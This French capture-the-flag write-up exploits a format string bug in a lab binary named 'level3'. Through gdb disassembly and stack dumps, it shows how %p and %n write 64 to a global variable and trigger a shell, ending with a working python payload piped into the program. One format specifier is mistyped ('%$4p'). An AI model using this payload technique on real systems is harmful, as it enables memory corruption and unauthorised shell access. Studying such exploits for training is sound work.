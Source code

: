 # Format String Exploitation

En décompilant l'exécutable, on remarque que le programme compare une variable statique `m` à la valeur `0x40`. Il contient également un printf qui ne prend qu'un argument. Nous allons exploiter la faille `format string`.

L'objectif est d'utiliser les modifiers de `printf` pour écrire à l'adresse de la variable `m`, la valeur `0x40` et ainsi valider la condition qui exécutera un shell.

Pour comprendre la faille, voici quelques exemples. Exécutons `gdb` pour avoir une idée du fonctionnement de la stack :
```
> gdb level3
[...]
> (gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	    push   %ebp
   0x080484a5 <+1>:	    mov    %esp,%ebp
   0x080484a7 <+3>:	    sub    $0x218,%esp
   0x080484ad <+9>:	    mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

On break juste après l'exécution du `printf` pour observer la stack, puis on lance le programme.
```
> (gdb) b *0x080484da
[...]
> (gdb) r
```

Voyons avec un exemple simple, donnons en argument la chaine de caractère `AAAA` :
```
AAAA

> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```

On remarque que `printf` a écrit en mémoire notre chaine de caractère. Essayons maintenant d'utiliser le modifier `%p` qui sert à afficher l'adresse d'un pointer. Nous pouvons associer `%p` avec les modifiers `4$` qui sert à indiquer à `printf` qu'il faut utiliser le 4ème argument.
```
AAAA%$4p
AAAA0x41414141
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```

Si on raisonne de la manière dont `printf` s'exécute, il écrit d'abord `AAAA` en mémoire, puis affiche l'adresse du 4ème argument, qui est maintenant `0x41414141`.

Il est également possible d'écrire dans la mémoire grace au modifier `%n`. `%n` écrit simplemement le nombre de charactères qui ont été affichés par `printf`. En combinant `%n` avec les modifiers `4$`, on peut ainsi écrire une certaine valeur à une adresse donnée.
```
AAAA%4$n
AAAA
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```
Toujours dans la logique de `printf`, on imprime `AAAA`, puis, on écrit la valeur 0x04 (puisque 4 caractères ont été écrits), à l'adresse du 4ème argument, ici `0x41414141`. On a donc un `SEGFAULT` puisqu'il est impossible d'accéder à l'emplacement `0x41414141`.

Notre but est d'écrire `0x40` soit `64` en base 10, à l'emplacement mémoire de `m`. Pour connaitre son emplacement en mémoire, on éxecute :
```
> (gdb) Info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```
L'adresse de `m` est donc `0x0804988c`

De manière abstraite, on peut représenter notre argument de l'entrée standard de cette manière :
```
adresse_m + 60_caractères + %4$n
^           ^               ^
4 octets  + 60 octets (=64) écrire la valeur 64 à
                            l'adresse du 4ème argument
                            (adresse de m)
```
Si on exécutait `gdb` avec une commande comme celle ci, on obtiendrais un résultat similaire à celui-ci :
```
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x0804988c	0x41414141	0x41414141	0x41414141
            ^           ^
            adresse de  60 caractères A
            m
0xbffff520:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff530:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff540:	0x41414141	0x41414141	0x41414141	0x41414141
```
Nous utilisons `python` pour formatter notre input :
```
python -c 'print("\x8c\x98\x04\x08" + "A"*60 + "%4\$n")' > /tmp/input
```
Puis nous injectons notre input dans `level3` :
```
cat /tmp/input - | ./level3
```

